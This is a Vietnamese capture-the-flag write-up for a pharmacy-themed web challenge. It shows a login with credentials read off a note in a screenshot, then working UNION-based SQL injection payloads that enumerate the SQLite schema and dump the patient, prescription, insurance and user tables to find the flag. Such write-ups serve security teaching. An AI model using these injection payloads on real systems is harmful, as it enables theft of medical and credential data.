









# Đề bài
A healthcare system, so it's HIPAA compliant right? RIGHT?

Mirror 1: https://18.215.143.250:5000
Mirror 2: https://18.145.136.91:5000


# Solution
Truy cập vào challenge, ta được yêu cầu phải login vào mới được tra thuốc

Soi kĩ ảnh thì thấy máy tính đang đăng nhập với user là `skim`

Bây giờ đi tìm thử mật khẩu để cố login vào user này thì thấy có một tờ note trên bàn ghi rõ user và password 

Suy ra:
```
user: skim
password: PharmD#2026!
```
Sau khi login thành công thì thấy có thanh search -> Có thể là XSS hoặc là SQL Injection

Vì web không chứa dữ liệu để search bằng HTML nên chỉ còn hướng SQL để lấy được dữ liệu từ Database

Ta thử nhập `amoxicillin` 

Thấy khi search tên thuốc thì được trả về các thông tin của thuốc đó. Vậy có thể câu lệnh SQL có thể có dạng:
```plsql
SELECT column1, column2, column3, column4, column5 FROM table_name WHERE condition;   
```
Thay các dữ liệu mà ta đoán được vào: 
```plsql
SELECT id, medication, ndc, category, qty FROM ... WHERE medication = 'amoxicillin';
```
Vậy input của user được đưa vào `condition`, bọc lại bởi dấu nháy
-> Trước hết ta phải thoát khỏi SQL string và thêm điều kiện `SELECT` khác bằng [UNION](https://www.w3schools.com/sql/sql_union.asp)

```plsql
1=2' UNION SELECT 0,name,sql, 0, 0 FROM sqlite_master WHERE type = 'table' -- 
```
:::warning
Ở sau dấu comment `--` thì phải có dấu space để đảm bảo những dòng ở sau bị biến thành comment
:::

Ta đã có đầy đủ 5 table với các column, bây giờ phải kiểm tra và tìm flag với format `rstcon{` với [LIKE](https://www.w3schools.com/sql/sql_like.asp)
Vì `rstcon{` là TEXT nên ta chỉ kiểm tra các columns có type là TEXT, mà inventory chỉ có `price` là chưa kiểm tra được, nhưng lại là type `REAL` nên ta bỏ luôn table `inventory`
1. insurance_claims: payer, bin_number, pcn, group_id, member_id, claim_status, submitted_date, adjudicated_date   
2. patients: first_name, last_name, date_of_birth, phone, email, address, allergies, created_at   
3. prescriptions: prescriber, dosage, filled_date, status, rx_number   
4. users: username, password_hash, full_name, role, email, last_login, created_at

-> Payload:
```sql
1=2' UNION ALL
SELECT phone, first_name, last_name, email, address
FROM patients
WHERE first_name LIKE '%rstcon{%'
   OR last_name LIKE '%rstcon{%'
   OR date_of_birth LIKE '%rstcon{%'
   OR phone LIKE '%rstcon{%'
   OR email LIKE '%rstcon{%'
   OR address LIKE '%rstcon{%'
   OR allergies LIKE '%rstcon{%'

UNION ALL
SELECT prescriber, dosage, filled_date, status, rx_number
FROM prescriptions
WHERE prescriber LIKE '%rstcon{%'
   OR dosage LIKE '%rstcon{%'
   OR filled_date LIKE '%rstcon{%'
   OR status LIKE '%rstcon{%'
   OR rx_number LIKE '%rstcon{%'

UNION ALL
SELECT payer, bin_number, pcn, group_id, member_id
FROM insurance_claims
WHERE payer LIKE '%rstcon{%'
   OR bin_number LIKE '%rstcon{%'
   OR pcn LIKE '%rstcon{%'
   OR group_id LIKE '%rstcon{%'
   OR member_id LIKE '%rstcon{%'
   OR claim_status LIKE '%rstcon{%'
   OR submitted_date LIKE '%rstcon{%'
   OR adjudicated_date LIKE '%rstcon{%'

UNION ALL
SELECT email, username, password_hash, full_name, role
FROM users
WHERE username LIKE '%rstcon{%'
   OR password_hash LIKE '%rstcon{%'
   OR full_name LIKE '%rstcon{%'
   OR role LIKE '%rstcon{%'
   OR email LIKE '%rstcon{%'
   OR last_login LIKE '%rstcon{%'
   OR created_at LIKE '%rstcon{%'
-- 
```

-> Flag:
`rstcon{p@ss_teh_hydrocod0n3_brah}`
